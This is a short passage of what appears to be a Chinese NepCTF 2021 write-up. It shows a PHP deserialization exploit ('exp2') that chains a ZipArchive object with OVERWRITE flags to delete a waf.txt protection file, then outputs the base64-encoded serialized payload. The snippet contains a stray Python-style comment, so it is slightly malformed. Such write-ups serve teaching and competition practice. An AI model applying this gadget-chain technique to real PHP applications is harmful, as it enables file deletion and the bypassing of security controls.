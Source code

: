 ![del](nepctf2021/image-20210322164402187.png)

可见waf.txt成功被删除，exp2如下

```php
<?php
'''
类同上  
  
'''
  
$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->choice = new login();
$a->file = new ZipArchive();
$a->filename = 'waf.txt';
$a->content = ZipArchive::OVERWRITE | ZipArchive::CREATE;

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
```
